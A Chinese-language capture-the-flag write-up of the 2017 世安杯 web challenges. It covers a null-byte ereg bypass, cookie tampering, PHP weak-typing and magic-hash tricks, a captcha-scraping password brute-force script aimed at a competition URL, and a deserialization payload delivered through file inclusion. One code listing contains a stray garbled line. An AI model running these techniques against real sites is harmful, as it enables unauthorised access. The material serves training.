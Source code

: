 ```yaml
---
title: 2017世安杯writeUp 
date: 2017-10-12 14:07:34
tags: writeup
---
```


十月八号的时候，喊了涛哥和旺旺来工作室一起打比赛，之前看到是实验吧合作伙伴，大概就猜到了会有很多原题（结果没想到都是原题）。虽然这次比赛水平极差，但是感觉给新人做还是能增加点自信的，所以就把原题都复现了一下，放在自己的小服务器上，爆破密码的就不放了，服务器撑不住撑不住。

**目录**
<!-- toc -->

## Web

### ctf入门题目

```
<?php
$flag = '*****';

if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
        echo '<p class="alert">You password must be alphanumeric</p>';
    else if (strpos ($_GET['password'], '--') !== FALSE)
        die($flag);
    else
        echo '<p class="alert">Invalid password</p>';
}
?>
```

看到这种题没得话说，就是截断，ereg遇到null会停止判断。上网搜一大把，所以payload：1111%00--
<!-- more -->

### 曲奇饼

任意文件读取，line是改变读取的行数，所以一行一行的读index.php

```
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['file'])?$_GET['file']:""); 
$line=isset($_GET['line'])?intval($_GET['line']):0;
if($file=='') header("location:index.php?line=&file=a2V5LnR4dA=="); 
// 
$file_list = array( 
    '0' =>'key.txt', 
    '1' =>'index.php', 
    ); 
// 
if(isset($_COOKIE['key']) && $_COOKIE['key']=='li_lr_480'){ 
    $file_list[2]='thisis_flag.php'; 
} 
// 
if(in_array($file, $file_list)){ 
    $fa = file($file); 
    echo $fa[$line]; 
} 


?> 

```

思路为，如果$_COOKIE['key']的值为‘li_lr_480’就可以读到flag文件，所以在burpsuite中修改一下cookie值即可。

### 类型 

```
<!-- 类型 -->
<?php 
show_source(__FILE__); 
$a=0; 
$b=0; 
$c=0; 
$d=0; 

if (isset($_GET['x1'])) 
{ 
        $x1 = $_GET['x1']; 
        $x1=="1"?die("ha?"):NULL; 
        switch ($x1) 
        { 
        case 0: 
        case 1: 
                $a=1; 
                break; 
        } 
} 
"x22":[[1],0]}
$x2=(array)json_decode(@$_GET['x2']); 
if(is_array($x2)){ 
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

这种题之前也做过了，网上类似的题也很多。

先观察x1,发现x1不能等于1，在下面的switch有个漏洞（语言基础，不用break引发的），如果x1=0或者字符串（弱类型比较）[php弱类型比较表](http://php.net/manual/zh/types.comparisons.php)
就可以让a=1
x2是需要提交json，并且其中的x21不能为数字但是要比2017大，这里涉及到了PHP弱类型的
一个特性，当一个整形和一个其他类型行比较的时候，会先把其他类型intval再比(intval是直到
遇上数字或正负符号才开始做转换，再遇到非数字或字符串结束时)。所以另其为2018a即可
绕过。x22需要为数组且长度为2，并且[0]也为数组，并且其中的的某个数值与’XIPU’相比相
等，所以另[1]为0即可，
​x3是个老生长谈的话题了，利用的是php 0e+数字的字符串弱等于都相等。脚本跑即可：

```
import hashlib

zctf = 'abcdefuz'
a = 'abcdefghijklmnopqrstuvwxyz0123456789'
for i in a:
    for j in a:
        for k in a:
            for l in a:
                for m in a:
                    for n in a:
                        for o in a:
                            b =  "XIPU" + i + k + j + l + m + n + o
                            md5 = hashlib.md5()
                            md5.update(b.encode('utf-8'))
                            xx =  md5.hexdigest()
                            xx = unicode(xx,'utf-8')
                            # print xx.isnumeric()
                            if xx[8:10] == '0e' and xx[10:25].isnumeric():
                            # if xx[0:2] == '0e' and xx[2:31].isnumeric():
                                print b
```

### 登录

源码提示密码是5位数

验证码无法绕过，但是是直接显示在源码的，那就写脚本取验证码再爆破吧，这里是涛哥写的脚本，因为多线程爬虫还没写过，速度会很慢，所以只能靠涛哥了：

```
    #coding:utf-8
import sys, requests, os, subprocess
from functions import *

header = { \
'User-Agent':'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36', \
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'}

url = 'http://ctf1.shiyanbar.com/shian-s/index.php'

pwds = open('5num.txt').read().split('\n')
#pwds = match(open('ing.txt').read(), 'got! ', 'session: PHPSESSID=')
#
def bc_sub(arg):
    passwd = arg.get('passwd', '00000')
    s = requests.session()
    
    req = s.get(url)

    code = match(req.content, '<input name="randcode" type="text"><br><br>', '<br><br>      <input type="submit" value=')[0]

    qstr = '?username=admin&password=' + passwd + '&randcode=' + code
    #print url + qstr
    req2 = s.get(url + qstr)
    if(req2.status_code != 200):
        bc_sub(arg)
        return
    if(req2.content.find("密码错误") == -1):
        if(req2.content.find("网站访问认证，点击链接后将跳转到访问页面") != -1):
            bc_sub(arg)
            return
        print 'got! ' + passwd + "session: " + req.headers['Set-Cookie']
        open('geted', 'w').write('got! ' + passwd + "session: " + req.headers['Set-Cookie'] + '\n' + req2.content)
        #print req2.content
        
args = []

for line in pwds:
    args.append({"passwd": line})
    
starthread(bc_sub, 100, args)
```

### admin

```
<?php

$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}

<?php

class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}

```

首先是尝试了直接get提交"the user is admin"发现不行，后面想到试试php://input，发现可以，然后有文件包含漏洞，用php伪协议读源码，发现是个反序列化漏洞，在本地构造payload

```
class Read{//f1a9.php
    public $file = "f1a9.php";
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}

$Dfile = new Read();
echo serialize($Dfile);
```

最后令file=class.php就可以得到flag




